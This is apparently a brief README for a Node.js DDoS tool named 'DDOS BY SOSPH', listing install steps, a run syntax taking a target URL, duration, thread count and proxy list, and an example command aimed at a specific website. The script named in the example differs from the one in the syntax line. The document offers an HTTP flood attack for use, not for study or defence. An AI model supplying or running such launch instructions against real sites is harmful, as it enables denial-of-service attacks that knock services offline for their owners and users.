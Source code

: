 # G-CLOUDSHELL

DDOS BY SOSPH

SETUP & RUN

cd sosph

npm i fake-useragent

node sosph.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

EXAMPLE :

node HTTPS-BYPASSv2.js https://dagtriDepTrai.com 60 5 PROXYVIP.txt
